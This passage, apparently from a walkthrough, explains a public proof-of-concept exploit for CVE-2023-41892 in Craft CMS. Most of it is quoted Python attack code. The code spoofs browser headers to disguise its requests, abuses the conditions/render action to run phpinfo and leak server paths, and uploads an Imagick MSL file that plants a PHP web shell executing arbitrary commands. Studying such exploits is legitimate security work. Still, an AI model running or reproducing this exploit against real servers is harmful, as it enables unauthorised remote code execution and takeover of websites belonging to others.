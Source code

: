 [GitHub Craft CMS Security Advisories](https://github.com/craftcms/cms/security/advisories/GHSA-4w8r-3xrw-v25g)

During our search we also found following Gist that provides a Proof-of-Concept (POC) for [CVE-2023-41892-POC](https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226)

Studying the code we can follow the flow.

Define request header with browser data to obfuscate request to look as it comes from a browser.

```python
headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.88 Safari/537.36"
}
```

Send request to execute `phpinfo` on target host and parse temporary upload directory and DOCUMENT_ROOT.

```python
def getTmpUploadDirAndDocumentRoot():
    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": r'{"name":"configObject","as ":{"class":"\\GuzzleHttp\\Psr7\\FnStream", "__construct()":{"methods":{"close":"phpinfo"}}}}'
    }

    response = requests.post(url, headers=headers, data=data)

    pattern1 = r'<tr><td class="e">upload_tmp_dir<\/td><td class="v">(.*?)<\/td><td class="v">(.*?)<\/td><\/tr>'
    pattern2 = r'<tr><td class="e">\$_SERVER\[\'DOCUMENT_ROOT\'\]<\/td><td class="v">([^<]+)<\/td><\/tr>'
   
    match1 = re.search(pattern1, response.text, re.DOTALL)
    match2 = re.search(pattern2, response.text, re.DOTALL)
    return match1.group(1), match2.group(1)
```

Write the payload that allows command execution to `shell.php` and upload to target server.

```python
def writePayloadToTempFile(documentRoot):

    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"msl:/etc/passwd"}}}'
    }

    files = {
        "image1": ("pwn1.msl", """<?xml version="1.0" encoding="UTF-8"?>
        <image>
        <read filename="caption:&lt;?php @system(@$_REQUEST['cmd']); ?&gt;"/>
        <write filename="info:DOCUMENTROOT/cpresources/shell.php" />
        </image>""".replace("DOCUMENTROOT", documentRoot), "text/plain")
    }

    response = requests.post(url, headers=headers, data=data, files=files)
```
